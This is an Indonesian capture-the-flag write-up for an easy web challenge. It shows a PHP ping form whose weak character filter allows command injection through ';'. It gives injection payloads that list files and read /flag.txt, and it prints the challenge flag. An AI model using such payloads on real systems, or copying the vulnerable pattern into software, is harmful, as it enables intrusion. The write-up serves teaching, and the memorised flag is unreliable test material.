



# ErCeE

Author: daffainfo

Category: Web

Flag: `HCS{rC3_1TU_54nG4T_m3NY3r4mK4N!!!}`

## Description
Let's ping the website!!

## Difficulty
Easy

## Solution
Mari kita analisis terlebih dahulu source code yang ada

```php
$command = $_POST['cmd'] ?? ''; 

function sanitizeString($input) {
	$sanitized = str_replace(array('|', '>', '<', '&'), '', $input);
	return $sanitized;
}

$sanitized = sanitizeString($command);

$output = system("ping " . $sanitized . "-c2");

echo "<pre>$output</pre>";
```

Disini kita dapat memasukkan sebuah input melalui parameter `cmd` dengan POST method. Dan kemudian inputnya akan dimasukkan kedalam fungsi `sanitizeString` untuk dihilangkan karakter-karakter yang berbahaya dan pada akhirnya akan masuk kedalam command `ping`. Sebagai contoh, jika saya masukkan `127.0.0.1`, maka command yang akan berjalan menjadi

```bash
ping 127.0.0.1 -c2
```

Jika dilihat kembali kode sumbernya ternyata rentan terhadap `Command Injection` dimana kita bisa menjalankan command-command yang berbahaya pada website. Namun terdapat filter dimana kita tidak bisa memasukkan 4 special characters

```php
function sanitizeString($input) {
	$sanitized = str_replace(array('|', '>', '<', '&'), '', $input);
	return $sanitized;
}
```

Meskipun terdapat beberapa characters yang difilter, masih ada special character `;` yang tidak difilter sehingga jika memasukkan input seperti dibawah pada form

```
; ls ;
```

Maka command yang berjalan pada website akan seperti ilustrasi dibawah

```bash
ping ; ls ; -c2
```



Terlihat bahwa command `ping` dan `-c2` akan menimbulkan error dan command `ls` dan `ls -la` akan tetap tereksekusi. Kemudian jika diimplementasikan kepada website yang akan diexploit, maka hasilnya akan seperti ini



Terlihat bahwa kita berhasil menjalankan command `ls -la` pada website. Kemudian untuk membaca file `flag.txt`, maka payload yang digunakan akan seperti gambar dibawah

```
; cat /flag.txt ;
```

